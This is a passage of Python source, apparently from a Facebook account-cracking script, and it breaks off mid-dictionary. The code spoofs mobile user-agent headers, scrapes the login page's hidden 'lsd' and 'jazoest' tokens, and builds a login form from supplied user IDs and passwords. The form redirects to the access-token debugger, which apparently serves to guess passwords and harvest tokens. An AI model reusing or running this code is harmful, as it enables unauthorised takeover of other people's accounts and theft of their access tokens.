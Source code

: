                     "upgrade-insecure-requests":"1",

                    "user-agent":"NokiaC5-05/22.5.007 (SymbianOS/9.4; U; Series60/5.0 Mozilla/5.0; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Safari/525 3gpp-gba+",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",

                    "dnt":"1",

                    "x-requested-with":"mark.via.gp",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://m.facebook.com/",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header)

                das = {

                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),

                    "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),

                    "uid":user,

                    "flow":"login_no_pin",

                    "pass":pw,

                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"

                }

                header1 = {

                    "Host":cebok,

                    "cache-control":"max-age=0",

                    "upgrade-insecure-requests":"1",

                    "origin":"https://"+cebok,

                    "content-type":"application/x-www-form-urlencoded",

                    "user-agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 13_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 [FBAN/FBIOS;FBDV/iPhone12,1;FBMD/iPhone;FBSN/iOS;FBSV/13.4.1;FBSS/2;FBID/phone;FBLC/en_US;FBOP/5]",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
